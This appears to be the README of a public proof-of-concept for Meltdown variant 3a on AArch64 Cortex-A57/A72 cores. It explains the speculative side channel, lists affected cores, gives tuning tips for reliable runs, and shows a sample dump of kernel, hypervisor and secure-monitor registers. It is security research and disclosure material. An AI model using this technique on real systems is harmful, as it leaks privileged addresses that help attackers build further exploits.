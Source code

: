 PoC code implementing variant 3a of the Meltdown attack for AArch64. This allows reading all (potentially excluding registers whose read has side effects - not verified) system registers from user mode, including those which should only be accessible from the EL1 (kernel), EL2 (hypervisor) and EL3 (secure monitor) modes.

The first 5 LDR instructions are setup so that the last in the sequence raises a NULL pointer dereference exception when it retires. The zrbuf  buffer (x1) is setup for the purpose of raising the exception.
The next 5 instructions are those which are run speculatively by the CPU. These instructions are not retired because an exception 'happens before' in the program order. Nevertheless, their speculative execution loads a cacheline of one of the two pages of the probe buffer (x0) into the DCache, depending on the speculatively read bit (x2) of a privileged register. The custom exception hanlder (get_value) checks which of the two pages are represented in the DCache, and accordingly determines the bit to be 0 or 1. Bit by bit, all 64 bits of the privileged register are extracted.




See the [ARM whitepaper](https://developer.arm.com/support/security-update) and the [Meltdown vulnerability](https://spectreattack.com/).

Confirmed to be working on Cortex-A57 and Cortex-A72.


Impact
------

Infoleaks of potentially sensitive data from the OS, hypervisor or secure monitor. No cryptographic keys or user data are expected to be exposed in most cases. So far, I've identified 3 potentially interesting uses for this:

1) confirming the presence of a hypervisor and/or secure monitor on the machine
2) detecting the use of hardware debugging or profiling tools
3) obtaining valid addresses of software running in EL1-EL3 (from the registers containing pointers to the page tables, the exception vector, etc) - potentially useful in developing or deploying exploits for other vulnerabilities in this software


Affected implementations
------------------------

Only showing AArch64 implementations.

| Core             | Vulnerable according to vendor                           | Tested with this exploit |
|------------------|----------------------------------------------------------|--------------------------|
| ARM Cortex-A35   | [no](https://developer.arm.com/support/security-update)  | no                       |
| ARM Cortex-A53   | [no](https://developer.arm.com/support/security-update)  | yes, not vulnerable      |
| ARM Cortex-A57   | [yes](https://developer.arm.com/support/security-update) | yes, vulnerable          |
| ARM Cortex-A72   | [yes](https://developer.arm.com/support/security-update) | yes, vulnerable          |
| ARM Cortex-A73   | [no](https://developer.arm.com/support/security-update)  | no                       |
| ARM Cortex-A75   | [no](https://developer.arm.com/support/security-update)  | no                       |
| APM X-Gene 2     | N/A                                                      | yes, not vulnerable      |
| Cavium ThunderX2 | no                                                       | yes, not vulnerable      |
| Qualcomm Kryo (Snapdragon 820) | N/A                                        | yes, not vulnerable      |

Please open a pull request if you've tested on any other implementations.


Running it
----------

The access timing is done using a second thread which increments a counter, which means that at least 2 cores need to be online and (close to) idle. DVFS might have to be disabled. In a big.LITTLE system, pin this process to the big cores. Cortex-A57 and Cortex-A72 are the only AArch64-capable cores designed by ARM which are vulnerable (to this variant of Meltdown). Note that bit-level errors are possible, although they should be rare.


Sample output
-------------

The registers marked *dynamic* denote the registers which do not appear to have a constant value during the sampling process. In the sample below, these are the *Generic Timer* registers (CNT\*) and the *Interrupt Status Register* (ISR_EL1).

```
$ ./dump_sys_regs
ACTLR_EL1           : 0x0 
ACTLR_EL2           : 0x73 
ACTLR_EL3           : 0x73 
AIDR_EL1            : 0x0 
AFSR0_EL1           : 0x0 
AFSR0_EL2           : 0x0 
AFSR0_EL3           : 0x0 
AFSR1_EL1           : 0x0 
AFSR1_EL2           : 0x0 
AFSR1_EL3           : 0x0 
AMAIR_EL1           : 0x0 
AMAIR_EL2           : 0x0 
AMAIR_EL3           : 0x0 
CCSIDR_EL1          : 0x70ffe07a 
CLIDR_EL1           : 0xa200023 
CPACR_EL1           : 0x300000 
CPTR_EL2            : 0x33ff 
CPTR_EL3            : 0x0 
CSSELR_EL1          : 0x2 
CTR_EL0             : 0x8444c004 
DISR_EL1            : 0x0 
ERRIDR_EL1          : 0x0 
ERRSELR_EL1         : 0x0 
ERXADDR_EL1         : 0x0 
ERXCTLR_EL1         : 0x0 
ERXFR_EL1           : 0x0 
ERXMISC0_EL1        : 0x0 
ERXMISC1_EL1        : 0x0 
ERXSTATUS_EL1       : 0x0 
ESR_EL1             : 0x56000000 
ESR_EL2             : 0x0 
ESR_EL3             : 0x5e000000 
HACR_EL2            : 0x0 
HCR_EL2             : 0x80000000 
ID_AFR0_EL1         : 0x0 
ID_DFR0_EL1         : 0x3010066 
ID_ISAR0_EL1        : 0x2101110 
ID_ISAR1_EL1        : 0x13112111 
ID_ISAR2_EL1        : 0x21232042 
ID_ISAR3_EL1        : 0x1112131 
ID_ISAR4_EL1        : 0x11142 
ID_ISAR5_EL1        : 0x11121 
ID_ISAR6_EL1        : 0x0 
ID_MMFR0_EL1        : 0x10201105 
ID_MMFR1_EL1        : 0x40000000 
ID_MMFR2_EL1        : 0x1260000 
ID_MMFR3_EL1        : 0x2102211 
ID_MMFR4_EL1        : 0x0 
ID_PFR0_EL1         : 0x131 
ID_PFR1_EL1         : 0x11011 
ID_AA64DFR0_EL1     : 0x10305106 
ID_AA64ISAR0_EL1    : 0x11120 
ID_AA64ISAR1_EL1    : 0x0 
ID_AA64MMFR0_EL1    : 0x1124 
ID_AA64MMFR1_EL1    : 0x0 
ID_AA64MMFR2_EL1    : 0x0 
ID_AA64PFR0_EL1     : 0x2222 
IFSR32_EL2          : 0x0 
LORC_EL1            : 0x0 
LORID_EL1           : 0x0 
LORN_EL1            : 0x0 
MDCR_EL3            : 0x0 
MIDR_EL1            : 0x411fd073 
MPIDR_EL1           : 0x80000103 
PAR_EL1             : 0x7f99305000 
RVBAR_EL3           : 0xf6000000 
REVIDR_EL1          : 0x0 
SCTLR_EL1           : 0x34d5d91d 
SCTLR_EL3           : 0xcd183f 
TCR_EL1             : 0x34b5193519 
TCR_EL2             : 0x80800000 
TCR_EL3             : 0x8080351d 
TTBR0_EL1           : 0xf89f0000d4454000 
TTBR0_EL2           : 0x0 
TTBR0_EL3           : 0x30010b00 
TTBR1_EL1           : 0x8133f000 
TTBR1_EL2           : 0x0 
VDISR_EL2           : 0x0 
VSESR_EL2           : 0x0 
VTCR_EL2            : 0x80000000 
VTTBR_EL2           : 0x0 
AFSR0_EL12          : 0x0 
AFSR1_EL12          : 0x0 
AMAIR_EL12          : 0x0 
CNTFRQ_EL0          : 0x1dcd650 
CNTHCTL_EL2         : 0x3 
CNTHP_CTL_EL2       : 0x0 
CNTHP_CVAL_EL2      : 0x0 
CNTHP_TVAL_EL2      : 0x65a29ee7 (dynamic?)
CNTHV_CTL_EL2       : 0x0 
CNTHV_CVAL_EL2      : 0x0 
CNTHV_TVAL_EL2      : 0x0 
CNTKCTL_EL1         : 0xc6 
CNTKCTL_EL12        : 0x0 
CNTP_CTL_EL0        : 0x0 
CNTP_CTL_EL02       : 0x0 
CNTP_CVAL_EL0       : 0x12878de2 
CNTP_CVAL_EL02      : 0x0 
CNTP_TVAL_EL0       : 0x7801a980 (dynamic?)
CNTP_TVAL_EL02      : 0x0 
CNTPCT_EL0          : 0x162db9aa576c0 (dynamic?)
CNTPS_CTL_EL1       : 0x0 
CNTPS_CVAL_EL1      : 0x0 
CNTPS_TVAL_EL1      : 0x6539bd20 (dynamic?)
CNTV_CTL_EL0        : 0x0 
CNTV_CTL_EL02       : 0x0 
CNTV_CVAL_EL0       : 0x0 
CNTV_CVAL_EL02      : 0x0 
CNTV_TVAL_EL0       : 0x6516d1c0 (dynamic?)
CNTV_TVAL_EL02      : 0x0 
CNTVCT_EL0          : 0x162db9b090480 (dynamic?)
CNTVOFF_EL2         : 0x0 
CONTEXTIDR_EL1      : 0x0 
CONTEXTIDR_EL12     : 0x0 
CONTEXTIDR_EL2      : 0x0 
CPACR_EL12          : 0x0 
CPTR_EL3            : 0x0 
DACR32_EL2          : 0x0 
ESR_EL12            : 0x0 
FAR_EL1             : 0x0 
FAR_EL12            : 0x0 
FAR_EL2             : 0x0 
FAR_EL3             : 0x0 
FPEXC32_EL2         : 0x7f99305000 
HPFAR_EL2           : 0x0 
HSTR_EL2            : 0x0 
ID_AA64AFR0_EL1     : 0x0 
ID_AA64AFR1_EL1     : 0x0 
ID_AA64DFR1_EL1     : 0x0 
ID_AA64PFR1_EL1     : 0x0 
ISR_EL1             : 0x0 (dynamic?)
LOREA_EL1           : 0x0 
LORSA_EL1           : 0x0 
MAIR_EL1            : 0xbbff440c0400 
MAIR_EL12           : 0x0 
MAIR_EL2            : 0x0 
MAIR_EL3            : 0x4404ff 
MDCR_EL2            : 0x6 
MVFR0_EL1           : 0x10110222 
MVFR1_EL1           : 0x12111111 
MVFR2_EL1           : 0x43 
RMR_EL3             : 0x1 
SCR_EL3             : 0x535 
SCTLR_EL12          : 0x0 
SCTLR_EL2           : 0x30c50830 
SDER32_EL3          : 0x0 
TCR_EL12            : 0x0 
TPIDR_EL0           : 0x7f993066f0 
TPIDR_EL1           : 0x1fed81000 
TPIDR_EL2           : 0x0 
TPIDR_EL3           : 0x30010f80 
TPIDRRO_EL0         : 0x0 
TTBR0_EL12          : 0x0 
TTBR1_EL12          : 0x0 
VBAR_EL1            : 0xffffffc000083800 
VBAR_EL12           : 0x0 
VBAR_EL2            : 0x8008a000 
VBAR_EL3            : 0x3000a800 
VMPIDR_EL2          : 0x80000103 
VPIDR_EL2           : 0x411fd073
```
